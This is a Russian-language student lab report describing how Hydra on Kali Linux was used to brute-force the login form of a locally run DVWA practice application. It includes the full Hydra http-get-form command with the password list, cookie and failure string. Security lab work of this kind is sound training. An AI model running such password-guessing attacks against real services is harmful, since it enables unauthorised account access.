





---
## Author
author:
  name: Сергеев Даниил Олегович
  degrees: DSc
  orcid: 0000-0002-0877-7063
  email: 1132246837@rudn.ru
  affiliation:
    - name: Российский университет дружбы народов
      country: Российская Федерация
      postal-code: 117198
      city: Москва
      address: ул. Миклухо-Маклая, д. 6

## Title
title: "Индивидуальный проект"
subtitle: "Этап №3"
license: "CC BY"
---

# Цель работы

Целью данной работы является использование Hydra в гостевую системе Kali Linux для подбора пароля для DVWA (Damn Vulnerable Web Application). [@tuis], [@kali-book]

# Ход выполнения лабораторной работы

## Запуск DVWA

Откроем терминал от имени администратора и запустим службы `apache2` и `mariadb`.
```bash
su -
service mariadb start
service apache2 start
```

{#fig:001 width=70%}

Откроем DVWA и перейдем во вкладку `Brute Force`. Здесь мы увидим страницу для входа. Чтобы войти, используется форма GET.

{#fig:002 width=70%}

## Использование Hydra

Чтобы воспользоваться Hydra, откроем Inspect и узнаем номер сессии Cookie и уровень безопасности.

{#fig:003 width=70%}

Запустим Hydra через команду. В ней укажем:

1. Имя пользователя: `admin`;
2. Файл паролей: `pass.txt`;
3. Файл для логов: `hydra_result.log`;
4. Порт: `80`;
5. IP-адрес: `127.0.0.1`;
6. Тип запроса: `http-get-form`;
7. Путь до страницы: `/DVWA/vulnerabilities/brute/`
8. Параметры запроса: `username=^USER^&password=^PASS^&Login=Login`
9. Файлы куки: `H=Cookie: PHPSESSID=0a074af...; security=low`
10. Сообщение об ошибке: `incorrect`

Команда:
```bash
hydra -l admin -P ./pass.txt -o hydra_result.log \
-f -V -s 80 127.0.0.1 http-get-form "/DVWA/ \
vulnerabilities/brute/:username=^USER^&password= \
^PASS^&Login=Login:H=Cookie: PHPSESSID=0a074af35 \
fd4db17c2ac077487fc1bac; security=low:incorrect"
```

В результате выполнения команды получим логин и пароль.

{#fig:004 width=70%}

Вставим данные в форму входа и войдем в систему.

{#fig:005 width=70%}

# Вывод

В результате выполнения лабораторной работы я попробовал программу перебора паролей Hydra на практике, с помощью DVWA. Был найден правильный пароль и осуществлен вход в систему с помощью него.

# Список литературы{.unnumbered}

::: {#refs}
:::
